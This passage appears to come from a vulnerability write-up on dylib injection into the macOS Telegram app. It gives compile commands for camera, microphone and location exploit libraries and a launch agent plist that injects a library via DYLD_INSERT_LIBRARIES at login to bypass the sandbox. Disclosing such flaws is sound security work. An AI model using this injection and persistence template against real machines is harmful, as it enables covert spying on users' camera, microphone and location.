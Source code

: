 This block effectively demonstrates the basic usage of the `LocationFetcher` class by fetching the location for 5 seconds upon

the application's start.

# **Exploit Testing**

## **Camera Exploit**

Compiling and testing time:

```
gcc -dynamiclib -framework Foundation -framework AVFoundation Camexploit.m -o Cam.dylib
```

**![](/assets/images/40a92a0d02cf613f2d3994ef8b596a48)**

## **Microphone Exploit**

Compiling and testing time:

```
gcc -dynamiclib -framework Foundation -framework AVFoundation Micexploit.m -o Micexploit.dylib
```

**![](/assets/images/78b234d576fd31e62e09dd12488879a8)**

## **Location Exploit**

Compiling and testing time:

```
gcc -dynamiclib -framework Foundation -framework CoreLocation -framework AVFoundation Locexploit.m -o Locexploit.dylib
```

**![](/assets/images/5bb4c2920bb8432044040625142676e2)**

## **Sandbox**

To exploit the vulnerability in general with any `Entitlemment` while the `sandbox` is activited for the app, We will Just use the `launch agent`:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
       <key>Label</key>
        <string>com.telegram.launcher</string>
        <key>RunAtLoad</key>
        <true/>
        <key>EnvironmentVariables</key>
        <dict>
          <key>DYLD_INSERT_LIBRARIES</key>
          <string>DYLIB_PATH</string>
        </dict>
        <key>ProgramArguments</key>
        <array>
  <string>/Applications/Telegram.app/Contents/MacOS/Telegram</string>
        </array>
        <key>StandardOutPath</key>
        <string>/tmp/telegram.log</string>
        <key>StandardErrorPath</key>
        <string>/tmp/telegram.log</string>
</dict>
```